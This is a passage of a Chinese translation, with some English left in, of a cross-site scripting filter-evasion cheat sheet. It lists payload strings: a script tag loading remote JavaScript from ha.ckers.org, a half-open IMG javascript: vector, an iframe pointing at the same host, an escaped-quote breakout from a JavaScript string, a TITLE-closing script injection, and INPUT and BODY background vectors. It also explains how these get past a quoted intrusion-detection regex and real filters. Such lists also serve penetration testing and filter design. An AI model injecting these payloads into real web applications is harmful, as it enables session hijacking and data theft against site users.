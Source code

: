 ```
<SCRIPT SRC=//ha.ckers.org/.j>
```

## 半开的 HTML/JavaScript xss 向量

不同于 Firefox ，ie 渲染引擎不会加入额外的数据到你的页面。但是它允许 javascript 指定在图片标签中这是有用的作为一个 xss 向量，因为它不需要一个结束的尖括号。你可以插入这个 xss 向量在任何 html 标签后面。甚至没有用 ">" 关闭标签。 A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: /((\%3D)|(=))[^\n]*((\%3C)|<)[^\n]+((\%3E)|>)/ because it doesn't require the end">". 这也是有效的去对付真实的 xss 过滤器，我曾经碰见过试用半开的

```
<IMG SRC="javascript:alert('XSS')"
```

## 双开尖括号

使用一个开始尖括号 (<) 在向量结尾代替一个关闭尖括号（>）会有不同的影响在 Netscape Gecko 的渲染中。 Without it, Firefox will work but Netscape won't。

```
<iframe src=http://ha.ckers.org/scriptlet.html <
```

## 转义 javascript 中的转义

当一个应用程序是输出用户自定义的信息到 javascript 代码中，例如： <SCRIPT>var a="$ENV{QUERY_STRING}";</SCRIPT>。如果你想插入你自己的 javascript 代码进入它，但是服务器转义了其中的某些引号，这时你需要通过转义被转义的字符来绕过它。从而使最终的输入代码类似于 < SCRIPT>var a="\";alert('XSS');//";</SCRIPT> 。最终 \ 转义了双引号前被服务器添加的 \，而双引号则不会被转义，从而触发 xss 向量。xss 定位器使用这个方法。

```
\";alert('XSS');//
```

## 闭合 title 标签

这是一个简单的 xss 向量，可以引入一个恶意的 xss 攻击。

_译者注：titile 标签内部不支持 html 代码，所有内容会被自动转义为普通字符。_

```
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
```

## INPUT image

```
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
```

## BODY image

```
<BODY BACKGROUND="javascript:alert('XSS')">
```
